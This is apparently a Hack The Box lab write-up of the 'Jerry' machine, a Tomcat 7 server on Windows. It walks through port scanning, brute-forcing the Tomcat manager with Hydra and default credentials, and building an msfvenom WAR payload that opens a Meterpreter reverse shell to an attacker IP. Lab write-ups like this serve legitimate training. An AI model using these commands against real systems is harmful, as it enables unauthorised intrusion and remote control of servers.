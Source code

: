# Jerry Writeup

This is a short writeup of HTB Jerry, an easy Windows box

## Port scanning

We start by scanning open ports on the box with nmap to see what we're dealing with. Running a TCP scan for all ports alongwith service/version detection, we get the following results:

```console
kali@kali:~/Desktop/htb/jerry$ nmap -sT -sV 10.10.10.95 -A -p0-65535
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 04:19 EDT
Nmap scan report for 10.10.10.95
Host is up (0.039s latency).
Not shown: 65535 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

Note: Usually I like to run a UDP scan in the background just to cover all bases. Since it is very time consuming, it makes sense to initiate the scan and proceed with further enumeration in the meantime. In this case, the UDP scan yielded no results.

From the nmap scan above, we can draw the following conclusions:

- Port 8080 open
- Runs Apache Tomcat/Coyote JSP engine 1.1
- Version: Apache Tomcat 7.0.88
- No UDP ports open
- OS: Windows (HTB gives us this information)

## Service enumeration

We're dealing with only 1 port i.e. 8080 which is supposedly running a web server. Visiting the webpage on a browser, we see the following:

![webpage-1](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-1.png)

On the homepage we can see "manager app" which could possibly lead us to the admin console. Clicking on that button we see that it requires us to enter a username and password:

![webpage-2](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-2.png)

Trying out random creds such as ```admin:admin``` lands us a 403 and we see the following:

![webpage-3](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-3.png)

On the 403 page, we see that for this version of Tomcat (7.0.88), the default admin credentials are ```admin:s3cret```. Trying this out on the admin login, we get access to the admin console:

![webpage-5](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-5.png)

The credentials worked and this is our most lucrative option. We can see that there is an option to deploy war files and execute them. WAR (Web Application Archive) files are basically files used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

Let's take a step back here and assume that we hadn't seen the default credentials on the 403. Having a quick look at how the login actually works. We fire up BurpSuite and turn intercept on to examine the traffic. Let's use the credentials ```blah:blah``` to see how it works:

![burp-1](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/burp-1.png)

Looking at the requests we see that it uses Basic Auth which just base64 encodes the username and password and forwards it.

![burp-2](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/burp-2.png)

We can decode the base64 string in BurpSuite as follows:

![burp-3](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/burp-3.png)

We can use [Hydra](https://github.com/vanhauser-thc/thc-hydra) to bruteforce the login. There are various wordlists that we can employ. A popular repository of wordlists is [SecLists](https://github.com/danielmiessler/SecLists) which contains various wordlists, one of which is default Tomcat passwords as shown below:

![hydra-1](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/hydra-1.png)

We can now initiate the Hydra bruteforce as follows:

```console
kali@kali:~/Desktop/htb/jerry$ hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-03 04:34:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-03 04:34:22
```

Concluding the service enumeration, its safe to assume that we have a very lucrative exploitation path with the admin console at our disposal. We can prioritize our exploitation paths as follows:

1. Admin console exploitation
2. Server software vulnerability assessment
3. SSH bruteforce

## Exploitation

Before we get into actual exploitation, we can do some more enumeration on the admin console now that we have access to it. This is done to understand the nature of the machine so we gain more information on how to proceed with our exploit. Exploring the admin console, we discover the following:

![webpage-6](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-6.png)

We now have the following:

- JVM Version: 1.8.0_171-b11
- JVM Vendor: Oracle Corporation
- OS Name: Windows Server 2012 R2
- OS Version: 6.3
- OS Architecture: amd64

Now that we have a decent amount of information about the machine, we can proceed to exploitation. As seen earlier, the admin has an option to upload files and execute them. The type of file as mentioned earlier is a WAR file. We can try to upload a crafted WAR payload that will spawn a shell on the machine. To do so we can use metasploit's msfvenom. First, we need to see if the WAR format is supported by msfvenom:

```console
kali@kali:~/Desktop/htb/jerry$ msfvenom --help-formats

Executable formats
asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war

Transform formats
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

**NOTE:** Executable formats will place the payload into a complete valid executable file, along with all the headers, footers, information blocks, checksums, heap options, loading instructions etc that goes along with it. Transform formats will output code suitable for copying into a script of some description, covering a wide range of scripting and higher level languages as well as some generic options as well.

Now that we know that WAR is supported, we can build our payload. We already know that we are dealing with an x64 Windows system. So we can select the x64 Windows meterpreter. We set the listening IP and port and set the file type as WAR with -f.

kali@kali:~/Desktop/htb/jerry$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.11 LPORT=4444  -f war -o evil.war

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of war file: 2460 bytes
Saved as: evil.war

As mentioned previously, WAR files are archives. We can unzip the file we generated to have a look inside:

kali@kali:~/Desktop/htb/jerry$ unzip evil.war
Archive:  evil.war
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF
   creating: WEB-INF/
  inflating: WEB-INF/web.xml
  inflating: qswppjdamzduqkn.jsp

The file named qswppjdamzduqkn.jsp is most likely the one that contains our actual payload. We can now upload the WAR file to the admin console:

![webpage-7](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-7.png)

After uploading the WAR file we can now see it on the admin console as an application (/evil) that can be executed:

![webpage-8](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-8.png)

We can click on the ```/evil``` application to see if it gets executed. However, on navigating to ```/evil```, we get a 404:

![webpage-9](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-9.png)

This is probably because the WAR file, as we saw earlier, is an archive. We should point it to the actual jsp file instead that contains the payload. In order to do so, we can navigate to ```http://10.10.10.95:8080/evil/qswppjdamzduqkn.jsp``` instead. This time, it shows that the payload is being executed

![webpage-10](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-10.png)

Now we need to start a listener to catch the shell from the machine. In order to do so, we can use the Metasploit multi handler. We set the payload to ```windows/x64/meterpreter/reverse_tcp``` and set the listening IP and Port as shown:

![msf-2](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/msf-2.png)

After running the listener and then refreshing the ```http://10.10.10.95:8080/evil/qswppjdamzduqkn.jsp``` page, we get a shell on the listener:

![msf-3](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/msf-3.png)

